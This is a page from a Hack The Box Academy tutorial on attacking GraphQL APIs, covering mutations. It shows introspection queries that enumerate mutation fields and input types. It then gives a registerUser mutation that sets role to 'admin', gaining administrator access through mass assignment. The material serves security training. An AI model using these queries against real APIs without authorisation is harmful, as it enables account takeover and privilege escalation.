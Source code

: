 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/271/section/3156
// Platform Version: V1
// Module ID: 271
// Module Name: Attacking GraphQL
// Module Difficulty: Medium
// Section ID: 3156
// Section Title: Mutations
// Page Title: Hack The Box - Academy
// Page Number: 06
-->

# Mutations

**Module Name:** Attacking GraphQL **Page Number:** 06

#### 

#### ATTACKING GRAPHQL Mini-Module

# Mutations

## What are mutations?

``` graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/mutation_1.png](https://academy.hackthebox.com/storage/modules/271/mutation_1.png)

``` graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/mutation_2.png](https://academy.hackthebox.com/storage/modules/271/mutation_2.png)

``` shell-session
lbek@htb[/htb]$ echo -n 'password' | md5sum

5f4dcc3b5aa765d61d8327deb882cf99  -
```

``` graphql
mutation {
  registerUser(input: {username: "vautia", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/mutation_3.png](https://academy.hackthebox.com/storage/modules/271/mutation_3.png)

## Exploitation with Mutations

``` graphql
mutation {
  registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/mutation_4.png](https://academy.hackthebox.com/storage/modules/271/mutation_4.png)

![https://academy.hackthebox.com/storage/modules/271/mutation_5.png](https://academy.hackthebox.com/storage/modules/271/mutation_5.png)

# 

# 

#### Questions

####